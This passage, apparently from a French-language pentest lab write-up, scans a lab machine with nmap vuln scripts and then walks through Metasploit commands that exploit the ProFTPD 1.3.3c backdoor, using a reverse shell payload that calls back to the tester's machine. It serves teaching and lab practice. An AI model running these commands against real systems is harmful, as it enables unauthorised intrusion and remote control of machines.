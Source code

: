 [Scan ftp](./file/scan_ftp.txt)

```bash
nmap -p 22 -sV --script vuln 192.168.56.102 -vv -oN scan_ssh.txt
```

**Sur ce service, nmap n’a testé aucune vulnérabilité, bien qu’il y en ait un grand nombre.**

[Scan ssh](./file/scan_ssh.txt)

```bash
nmap -p 80 -sV --script vuln 192.168.56.102 -vv -oN scan_http.txt
```

**Sur ce service nmap à repérer plusieurs vulnérabilités, il a de plus fait une énumération des fichiers et des dossiers du site web qui nous apprend la présence d’un répertoire /secret.**

[Scan http](./file/scan_http.txt)

---
**Maintenant que nous avons découvert les services qui sont derrière les ports ouverts, nous allons pouvoir passer à l’utilisation des outils de pentest.**

---

## Etape 2: Introduction dans la cible

### 2.1. Introduction dans la cible

> Nous allons utiliser le service ftp pour nous connecter à la machine cible et plus particulièrement la backdoor repérer précédemment.
>
> Comme nous connaissons déjà la version, nous allons chercher un exploit avec metasploit.

```bash
msfconsole

search type:exploit proftpd 133c
```

| # | Name                                   | Disclosure Date | Rank      | Check | Description                                   |
|---|----------------------------------------|-----------------|-----------|-------|-----------------------------------------------|
| 0 | exploit/unix/ftp/proftpd_133c_backdoor | 2010-12-02      | excellent | No    | ProFTPD-1.3.3c Backdoor Command Execution    |

**Metasploit nous propose un exploit qui correspond parfaitement à notre recherche. Nous allons donc pouvoir le mettre en œuvre.**

```bash
use exploit/unix/ftp/proftpd_133c_backdoor

# On configure l'adresse de la cible
set RHOST 192.168.56.102

# On configure le payload utilisé
set PAYLOAD cmd/unix/reverse

# On configure l'adresse IP de notre machine pour la connexion en reverse
set LHOST 192.168.56.103

# On lance l'exploit
run
```
